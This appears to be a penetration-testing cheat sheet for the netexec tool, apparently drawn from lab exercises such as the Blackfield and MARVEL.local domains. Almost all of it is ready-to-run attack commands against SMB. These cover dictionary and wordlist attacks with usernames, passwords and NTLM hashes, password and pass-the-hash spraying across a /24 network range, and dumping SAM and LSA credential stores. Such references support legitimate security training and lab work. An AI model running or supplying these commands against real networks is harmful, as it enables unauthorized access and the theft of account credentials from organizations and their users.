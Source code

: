 **netexec is heavily used for credential enumeration across several protocols (ldap, ssh, smb, mssql, winrm).  CME works alongside popular modules to become an extremely powerful resource.**

```bash
sudo apt install netexec
```

```bash
netexec --help
```

#### Dictionary attack (Hashes)
Here we are attacking SMB protocol with a list of users and hashes against the domain of "Blackfield".
```bash - kali
netexec smb $TARGET -u Blackfield/users.txt -H Blackfield/hashes.txt
```

#### Dictionary attack (Passwords)
Here we found a valid username "neil", and are attempting to find a valid password by utilizing a wordlist.
```bash - kali
netexec smb $TARGET -u neil -p /usr/share/seclists/Passwords/Common-Credentials/best1050.txt
```

#### User wordlist attack with single password
Here we found a valid password "SecretOrg!", and are attempting to find a valid user by utilizing a wordlist.
```bash
netexec smb secret.csl -u users.txt -p 'SecretOrg!'
```

#### Spray username and hash
Here we found valid username and hash, and are spraying a network range to find a working target.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -H 64f12cddaa88057e06a81b54e73b949b
```


#### Spray username and password
Here we found valid username and password, and are spraying a network range to find a working target.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -p Password1
```


#### sam file dump with netexec
Here we found valid username and password, and are spraying a network range to dump sam hashes.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```

#### lsa file dump with netexec
Here we found valid username and password, and are spraying a network range to dump sam hashes.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -p Password1 --lsa
```